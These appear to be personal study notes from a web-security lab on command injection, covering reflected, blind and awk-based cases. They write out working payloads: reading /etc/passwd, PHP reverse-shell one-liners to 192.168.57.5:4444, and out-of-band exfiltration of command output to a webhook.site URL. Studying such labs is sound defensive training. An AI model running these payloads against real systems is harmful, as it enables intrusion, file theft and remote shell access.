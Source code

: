 
Application is taking an input and passing it to a function that executes it as code and not as data

Eval is evil

Command running is Command: curl -I -s -L | grep "HTTP/"

i/p : ;cat /etc/passwd;asd
command becomes : curl -I -s -L ;cat /etc/passwd;asd | grep "HTTP/"

no i/p given to curl so it will thorw an error print the /etc/passwd file data pass random data to grep command

use ; to separate commands

i/p : ; whoami ; asd
command : curl -I -s -L ;whoami;asd | grep "HTTP/"
o/p : www-data

i/p : ;which php;asd
command : curl -I -s -L ;which php;asd | grep "HTTP/"
o/p : /usr/local/bin/php

Start netcat

i/p : ;/usr/local/bin/php -r '$sock=fsockopen("192.168.57.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");';asd

Bash one liner dosent work so we used php 
and we get a reverse shell


---

### Blind Command Injection

Prompt to input a website name

we get OK back

probably from response code 200 OK

test a non existent website name to see response

we get website not found

i/p: https://tcm-sec.com ; whoami; asd

we get OK again but out ; are being filtered

i/p : \https://webhook.site/c50292e9-da33-4700-a16c-a67e8da/? \`whoami\`

***this is out of band command injection since we have to catch it at other place reather than it being reflected back to us***

***whoami inside backtiks which will be interpreted as a command and executed***

o/p : user is www-data

i/p : \http://localhost/?\`sleep 10\`

and it takes 10 seconds to respond

***Blind Command Injection : Even though we cannot see the result, out command is being executed***

To test for Blind command Injection try things like

- sleep
- create a new file : use the file command on newly created file , if it shows response means file was created that means our command of creating the file ran 


---

### Command Injection Challenge


i/p: 100 200

Executed: awk 'BEGIN {print sqrt(((100-50)^2) + ((200-50)^2))}'  
Result: 158.114

**1. AWK Operations:**   
(a) Scans a file line by line   
(b) Splits each input line into fields   
(c) Compares input line/fields to pattern   
(d) Performs action(s) on matched lines

try command injection on 2nd payload

i/p 100 50)^2))}';whoami;

o/p: Executed: awk 'BEGIN {print sqrt(((100-100)^2) + ((200-50)^2))}';whoami;)^2))}'  
Result:

we get no result

i/p:

100 50)^2))}';whoami;#

add hash to comment out rest of command

o/p: Executed: awk 'BEGIN {print sqrt(((100-100)^2) + ((200-50)^2))}';whoami;#)^2))}'  
Result: 150 www-data

i/p: 100 50)^2))}';php -r '$sock=fsockopen("192.168.57.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");';#

![[commandInjection.png]]

And we get Reverse shell

**dont forget the hash to ccomment out rest of command**

---




